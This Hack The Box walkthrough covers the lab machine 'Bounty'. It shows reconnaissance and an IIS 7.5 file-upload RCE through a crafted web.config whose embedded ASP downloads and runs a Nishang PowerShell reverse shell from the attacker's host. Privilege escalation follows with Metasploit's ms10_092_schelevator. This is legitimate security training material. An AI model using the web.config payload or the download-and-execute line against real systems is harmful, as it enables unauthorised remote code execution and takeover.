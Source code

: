 ```yaml
---
"title": "Hack The Box - Bounty"
"date": 2020-03-09
"tags": ["windows", "easy", "file-upload-vuln", "isi"]
"keywords": ["windows", "easy", "file-upload-vuln", "isi"]
"author": "Ghostbyt3"
"description": "We are going to pwn Bounty from Hack The Box."
"featured_image": "/img/htb-bounty/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-bounty/1.png)

We are going to pwn Bounty from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/142](https://www.hackthebox.eu/home/machines/profile/142)


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP:
![Untitled](/img/htb-bounty/2.png)

Nothing interesting, lets run ``Gobuster``.

Gobuster Scan Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.93
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/09 19:03:45 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
/transfer.aspx (Status: 200)
/uploadedfiles (Status: 301)
===============================================================
2020/03/09 19:10:48 Finished
===============================================================

```

``/transfer.aspx`` 

![Untitled](/img/htb-bounty/3.png)

There is a file upload options so I guess we can upload a reverse shell here and access them in ``/uploadedfiles``

## Test:

I uploaded ``wolf.jpg`` and it Successfully Uploaded

![Untitled](/img/htb-bounty/4.png)

``/uploadedfiles/wolf.jpg``
![Untitled](/img/htb-bounty/5.png)

So I tried uploading ``.aspx`` file and I get Invalid File.[br/](br/)
![Untitled](/img/htb-bounty/6.png)

I googled about ISI 7.5 exploits and found there is a RCE via uploading ``web.config``.

> Reference https://sethjackson.github.io/2018/10/27/rce-through-web-config-upload/

So I used [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get shell.

If we look at the Shell it gives us some of the examples.

```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```
I copied one of the example and changed it to my IP and paste it in bottom of the file. [br/](br/)
![Untitled](/img/htb-bounty/7.png)[br/](br/)
This not only load the module but also the shell give me a callback.

Started python server.

``web.config``

```
[?xml version="1.0" encoding="UTF-8"?](?xml version="1.0" encoding="UTF-8"?)
[configuration](configuration)
   [system.webServer](system.webServer)
      [handlers accessPolicy="Read, Script, Write"](handlers accessPolicy="Read, Script, Write")
         [add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /](add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /)         
      [/handlers](/handlers)
      [security](security)
         [requestFiltering](requestFiltering)
            [fileExtensions](fileExtensions)
               [remove fileExtension=".config" /](remove fileExtension=".config" /)
            [/fileExtensions](/fileExtensions)
            [hiddenSegments](hiddenSegments)
               [remove segment="web.config" /](remove segment="web.config" /)
            [/hiddenSegments](/hiddenSegments)
         [/requestFiltering](/requestFiltering)
      [/security](/security)
   [/system.webServer](/system.webServer)
[/configuration](/configuration)
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
[% Response.write("-"&"-](% Response.write("-"&"-)") %>

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

[% Response.write("<!-"&"-") %](% Response.write("<!-"&"-") %)
-->
```

Uploaded ``web.config``[br/](br/)
![Untitled](/img/htb-bounty/8.png)

Now I need to visit ``10.10.10.93/uploadedfiles/web.config`` and I will get the shell.

``Status 200`` means it successfully downloaded to the box. And NC give me the shell.
![Untitled](/img/htb-bounty/9.png)

I changed to Metasploit

``systeminfo``

```
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          3/9/2020, 6:53:24 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,573 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,575 MB
Virtual Memory: In Use:    520 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
```

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

> A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

We can try ``local_exploit_suggester`` this will give us some suggestions to exploit. Before that we need to ``migrate`` process inorder to make it stable. So I won’t face any errors while using any exploit. 

![Untitled](/img/htb-bounty/10.png)

Now Background the session and run ``local_exploit_suggester``.
![Untitled](/img/htb-bounty/11.png)

It displayes a lot of vulnerable so I chose random one ``windows/local/ms10_092_schelevator``
![Untitled](/img/htb-bounty/12.png)

Got Authority\System